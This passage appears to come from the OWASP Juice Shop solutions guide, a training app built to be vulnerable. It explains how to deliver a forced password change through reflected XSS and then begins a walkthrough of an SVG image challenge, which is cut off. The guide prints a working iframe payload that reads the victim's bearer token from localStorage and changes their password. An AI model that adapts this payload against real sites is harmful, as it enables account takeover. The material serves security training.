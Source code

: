#### Bonus Round: Delivering the attack via reflected XSS

If you want to craft an actually realistic attack against
`/rest/user/change-password` that you could send a user as a malicious
link, you will have to invest a bit extra work, because a simple attack
like _Search_ for `<img
src="http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic">`
will not work. Making someone click on the corresponding attack link
<http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E>
will return a `500` error when loading the image URL with a message
clearly stating that your attack ran against a security-wall: `Error:
Blocked illegal activity`

To make this exploit work, some more sophisticated attack URL is
required:

<http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E>

Pretty-printed this attack is easier to understand:

```html
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
```

Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!

👏 Kudos to Joe Butler, who originally described this advanced XSS
payload in his blog post
[Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html).

### Stick cute cross-domain kittens all over our delivery boxes

1. Log in with any user and go to
   <http://localhost:3000/#/deluxe-membership>
2. Right-click and _Inspect_ the image of the delivery boxes with the
   Juice Shop logo on them.
3. You will notice that this image is in fact an inline `<svg>` tag that
   includes six `<image>` tags. One is loading
   `assets/public/images/deluxe/blankBoxes.png` and the other five load
   `assets/public/images/JuiceShop_Logo.png` in different sizes and
   positions onto the SVG graphic.
4. Open the `main-es2015.js` in your browser DevTools and search for the
   corresponding Angular controller code related to that page and SVG
   image
5. You will be able to spot six `:svg:image` references, one of them
   `blankBoxes.png` and the other five seemingly unspecified at that
   time.
